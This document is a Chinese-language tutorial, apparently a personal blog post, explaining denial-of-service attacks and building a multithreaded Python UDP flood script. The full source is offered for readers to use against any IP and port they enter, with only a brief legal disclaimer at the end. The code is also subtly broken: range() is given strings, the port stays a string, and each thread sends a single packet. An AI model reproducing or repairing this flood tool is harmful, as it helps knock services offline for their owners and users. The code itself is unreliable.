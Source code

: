 # dos攻击

- [原理](#原理)
- [Python实现](#Python实现)
    - [导入库](#导入库)
    - [生成攻击数据包](#生成攻击数据包)
    - [攻击主体](#攻击主体)
    - [多线程](#多线程)
- [Python源码](#Python源码)
- [法律声明](#法律声明)

## 原理
dos攻击属于一种网络攻击手段，原理是通过向被攻击设备发送过多无用数据，导致被攻击设备无法处理这些数据，从而导致崩溃

## Python实现
我们将使用Python来实现dos攻击

废话不多说，撸起袖子就开始干
### 导入库
我们使用`socket`库来进行dos攻击，为了让攻击更具有效果，再使用`threading`库多线程

以下是代码
```python
import socket
import threading
```

### 生成攻击数据包
攻击的时候，我们要发送攻击数据包到被攻击设备，攻击数据包采用`byte`类型，即字节，以下代码，为攻击数据包部分

```python
data = '我是在攻击你' * 500
data_byte = data.encode() # 生成攻击数据包
```
生成成功啦，接下来就是攻击主体部分了

### 攻击主体部分
攻击主体部分，即为发送数据包的部分，首先，要生成一个以`UDP`协议为基础的`socket`套接字类型，为什么要选用UDP协议呢？

UDP协议不需要三次握手，速度快，传输数据没有繁多的步骤，非常适合我们dos攻击

以下是源代码

```python
so = socket.socket(socket.AF_INET,socket.SOCK_DGRAM) # 生成攻击服务器

def attack():
    # 攻击主体部分
    so.sendto(data_byte, ('Your IP', 'Your Port'))
    """
    Your IP         目标设备IP地址
    Your Port       目标设备端口，建议80
    """
```

### 多线程
虽然我们已经完成dos攻击的主要部分了，但是，威力太小，我们可以使用`多线程`,一次发送多个数据包

多线程概念：在同一时间执行多个任务

直接上代码
```python
threads = [] # 保存线程
for i in range(1, "Thread"): # 重复线程数量次
    """
    Thread: 线程数量
    """
	send = threading.Thread(target=attack, args=()) # 生成多线程类, attack为之前的攻击函数
	threads.append(send) # 添加至列表
```
## Python源码
我把源码放在这里，大家可以使用

我在之前的基础上做了些修改

```python
import socket
import threading

ip = input('IP地址：')
port = input('端口:')
thread = input('线程数量:')

data = '我是在攻击你' * 500
data_byte = data.encode() # 生成攻击数据包
so = socket.socket(socket.AF_INET,socket.SOCK_DGRAM) # 生成攻击服务器

def attack():
    so.sendto(data_byte, (ip, port))

threads = [] # 保存线程
for i in range(1, thread): # 重复线程数量次
	send = threading.Thread(target=attack, args=()) # 生成多线程类
	threads.append(send) # 添加至列表

for j in threads:
    j.start() # 启动线程
```

[源码链接](https://Rainwangpupil.github.io/Program/2022-08-20-dos_attack.py)

## 法律声明
互联网不是法外之地，这个程序仅供学习所用，如果使用者违法使用这些代码，作者不负责任